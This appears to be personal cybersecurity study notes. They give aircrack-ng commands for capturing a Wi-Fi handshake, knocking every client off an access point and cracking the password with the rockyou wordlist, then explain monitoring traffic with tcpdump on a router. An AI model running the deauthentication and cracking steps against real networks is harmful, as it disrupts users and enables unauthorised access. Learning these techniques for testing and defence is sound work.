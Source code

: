 ```bash
# sniff the access point
sudo airodump-ng -c <channel_number> --bssid <MAC_address> -w <FILE_name> wlo1
# -w option stands for the file name where all of the info will be written

# Disconnect everyone from the access point
sudo aireplay-ng -0 0 -a <MAC_address_access_point> wlo1

# password list
locate rockyou.txt
cp rockyou.txt /home/$USER/Desktop
gzip -d rockyou.txt.gz

# use the tool aircrack to crack the password
sudo aircrack-ng -w rockyou.txt <File>.cap
```
###### <strong style="color:#689d6a">Network Monitoring</strong>

Tools for network monitoring: <span style="color: #98971a">Wireshark</span>, <span style="color: #98971a">TCPdump</span>, <span style="color: #98971a">Tshark</span>. Run these tools from an endpoint device, it will only monitor traffic from that device, but if they are run from a router or firewall then it will be able to monitor the traffic from all the devices inside the network.

In case a malware is running on an endpoint device, the malware could technically be programmed to evade the monitoring tools if they are running on that endpoint device as well. So it might not be able to see the correct network traffic. But if the monitoring tools are put to run from the router, it will be possible to see the valid traffic going from and coming out to that machine.

If the router doesn't have a GUI option to see the network traffic, then it will be necessary to log in to the router, whether it being through ssh or something else and run the command line monitoring tools from there instead.

running <span style="color: #98971a">TCPdump</span> on the router:
- <span style="color: #3588E9">--></span> in case the router doesn't have tcpdump installed, it needs to be installed first.
```bash
# checkout all the settings:
tcpdump -h 

# to show the interfaces on the machine:
tcpdump -D

# sniff all the traffic on the interface:
sudo tcpdump -i eth0

# to show the IP address instead fo the domain
sudo tcpdump -n -i eth0

# filter the traffic by a port :
sudo tcpdump -n -i enp0s3 dst port 80

# see the external traffic comming to the Local network:
sudo tcpdump -i enp0s3 not src net 192.168.0.0/24

# shows the manual:
man tcpdump
```
###### <strong style="color:#689d6a">Common Network Attacks</strong>

